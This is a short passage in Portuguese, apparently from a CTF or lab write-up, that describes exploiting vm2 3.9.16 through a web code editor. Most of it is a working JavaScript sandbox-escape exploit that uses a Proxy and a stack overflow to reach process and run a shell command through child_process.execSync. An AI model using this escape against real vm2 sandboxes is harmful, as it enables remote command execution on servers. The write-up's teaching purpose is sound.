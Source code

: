 Pesquisando sobre vm2  3.9.16 encontrei esse link:  
 <https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>   
Onde contém um código que coloquei no editor da página e executei. O código usa de escape para injetar comando no servidor.

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
{: .nolineno }
## **Acesso**